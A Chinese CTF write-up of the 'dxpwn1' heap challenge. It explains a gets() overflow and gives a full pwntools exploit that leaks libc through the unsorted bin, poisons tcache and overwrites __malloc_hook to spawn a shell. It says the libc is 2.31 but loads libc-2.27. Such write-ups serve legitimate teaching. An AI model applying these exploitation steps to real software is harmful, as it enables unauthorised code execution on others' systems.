








# dxpwn1

## 0x00 题面

题目链接: [D:\ctf\pwn\dxpwn1\pwn1](D:\ctf\pwn\dxpwn1\pwn1)
题目给了我们 libc，版本为 2.31，猜测可能与 tcache attack 相关。

## 0x01 思路

1. 首先对文件进行例行检测：

- 程序类型：

  

- 程序保护情况

  

  保护全开

2. 运行查看

   

   发现是程序提供了类似于留言板的功能，有增删查 3 个模块，大概率是 heap 的题型。

3. 使用 IDA Pro 进行反编译静态分析

- main()函数

  

  根据用户的输入进入对应的功能模块

- create()增加留言

  

  发现程序在 bss 段定义了一个堆指针`chunk_header`, 用于指向堆块(chunk). 每次创建留言时, 程序会申请`0x80`大小的 chunk, 随后让用户输入. 但是注意, 这里使用了`gets()`进行输入的读取, 该函数是不安全的, 不会对输入长度进行检查, 可以进行堆溢出. 输入结束后, 将本次申请的 chunk 地址存到`chunk_header`数组中. 还要注意的是, `gets`会自动在字符串末尾追加`\x00`, 进行地址泄露的时候会有点麻烦.

- drop()删除留言

  

  这段代码会`free`指定索引的 chunk, 并且将`chunk_header`指针置 0, 因此不能直接进行`UAF`手段

- view()查看留言

  

  这段代码会将指定索引的 chunk 打印出来, 注意这里使用了 printf 的打印方法, 会被`\x00`截断.

4. 分析

对于堆溢出的题目, 我们 getshell 的常用手段是设法申请到`__malloc_hook`或`__free_hook`地址处的堆块, 并写入 libc 的 one_gadget.

程序在申请堆块的时候, 存在溢出点, 我们可以无限地向堆块中写入字符, 而堆块大小是恒定. 为了达成申请到`__malloc_hook`地址处的堆块, 我们需要:

- 设法泄露处 libc 的基地址
- 利用 tcache 毒化, 将`__malloc_hook`地址放到 tcache 列表

## 0x02 编写 exp

1. 泄露 libc 地址

为了泄露 libc 地址, 我们需要借助到`unsorted bin`, 因为`unsorted bin`链表头的'fd'是于 libc 的`main_arena`相邻的, 通过`main_arena`可以推算出`__malloc_hook`地址与 libc 版本.

而为了能让 chunk 在`free()`后能进入`unsorted bin`, 我们需要使用溢出的方式, 修改下一个相邻 chunk 的 size 字段. 由于 tcache 的范围是`[0x10, 0x410)`, 而为了方便接下来的利用, size 最好还是`0x80`的整数倍, 因此选择将下一个相邻的 chunk 的 size 大小改为`0x480`

```python
    # 1st step: 泄露libc地址
    create('aaaa') # idx0, 用于溢出下一个chunk
    for i in range(9):
        create('bbbb') # idx1 to idx 9, 0x480=0x48 * 9, 用于进入unsorted bin的chunk
    # 使用溢出的手段, 让idx1的size处于unsorted bin的范围
    drop(0) # 由于程序没有修改的功能, 所以通过先删除再申请的功能写入payload
    payload = b"a"*0x88 + p64(0x481)
    create(payload) # 进行溢出
    # free idx1, 此时的idx1会处于unsorted bin中
    drop(1)
    # 现在tcache lise是空的, 因此下一个新申请的chunk会从unsorted bin头部分割出来
    create('dddd') # idx1
    # 这个时候 idx1-0x80是unsorted bin的链表头地址
    # 但是同时他也是idx2的地址, 因此我们直接查看idx2即可获取libc的地址
    view(2)
    p.recvuntil('content: ')
    main_arena_addr = u64(p.recv(6).ljust(8, b'\x00'))-96
    malloc_hook = main_arena_addr-0x10  # malloc_hook与main_arena的偏移量是个定值
    success(f"main_arena address => {hex(main_arena_addr)}")

    libc = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
    one_gadget = 0x10a41c # 0x4f3d5, 0x10a41c, 0x4f432, 通过one_gadget获取
    libc_base = malloc_hook - libc.symbols['__malloc_hook']
    success(f"libc_base addr => {hex(libc_base)}")
```

2. 毒化 tcache 链表

为了能申请到`__malloc_hook`, 我们使用`tcache poisoning`的技术, 篡改 tcache 链表.

```python
    # 2nd step, tcache poisoning
    # 新申请3个chunk便于后续操作
    create('aaaa') # idx10, 用于溢出
    create('aaaa') # idx11
    create('aaaa') # idx12
    drop(12)
    drop(11) # 此时的tcache list: idx11 -> idx12 -> 0
    drop(10) # 先删除再申请回来, 用于写入paylaod

    payload = b'a'*0x88 + p64(0x91) + p64(malloc_hook)  # payload会将idx11的fd字段改为__malloc_hook的地址
    create(payload) # 此时的tcache list: idx11 -> malloc_hook

    # 3rd step, getshell
    payload = p64(libc_base + one_gadget) # libc中执行system('/bin/sh')的地址
    create('aaaa') # idx11, 此时的tcache list: malloc_hook
    create(payload) # 这一步已经修改了`__malloc_hook`的指向了

    p.sendafter(">> ", "1") # 调用malloc触发`__malloc_hook`
    p.interactive() # getshell
```

完整 exp:

```python
from pwn import *
from LibcSearcher import *

'''
tips: UAF, unsorted bin leak libc, tcache poisoning, __malloc_hook
'''
p = process(['./pwn1'])

def create(content):
    p.sendafter(">> ", "1")
    p.sendlineafter("content: ", content)


def view(idx):
    p.sendafter(">> ", "3")
    p.sendlineafter('index: ', str(idx))


def drop(idx):
    p.sendafter(">> ", "2")
    p.sendlineafter("index: ", str(idx))


def exp():
    # 1st step: leak libc
    create('aaaa') # idx0, for overflowing
    for i in range(9):
        create('bbbb') # idx1 to idx 9
    # make idx1's size in range of unsorted bin
    drop(0)
    payload = b"a"*0x88 + p64(0x481)
    create(payload) # overflow
    # free idx1, and idx1 would be in unsorted bin
    drop(1)
    # now tcache list is empty, so new chunk is alloced from unsorted bin header
    create('dddd') # idx1
    # now address of idx1 - 0x80 is the header of unsorted bin
    # meanwhile, it's idx2's address, so just to print it to leak libc's address
    view(2)
    p.recvuntil('content: ')
    main_arena_addr = u64(p.recv(6).ljust(8, b'\x00'))-96
    malloc_hook = main_arena_addr-0x10
    success(f"main_arena address => {hex(main_arena_addr)}")

    libc = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
    one_gadget = 0x10a41c # 0x4f3d5, 0x10a41c, 0x4f432
    libc_base = malloc_hook - libc.symbols['__malloc_hook']
    success(f"libc_base addr => {hex(libc_base)}")

    # 2nd step, tcache poisoning
    create('aaaa') # idx10
    create('aaaa') # idx11
    create('aaaa') # idx12

    drop(12)
    drop(11) # tcache list: idx11 -> idx12
    drop(10)
    payload = b'a'*0x88 + p64(0x91) + p64(malloc_hook)
    create(payload) # tcache list: idx11 -> malloc_hook
    payload = p64(libc_base + one_gadget)
    create('aaaa') # idx11
    create(payload) # malloc_hook

    p.sendafter(">> ", "1") # getshell
    # create('cccc')
    p.interactive()


if __name__=="__main__":
    exp()

```


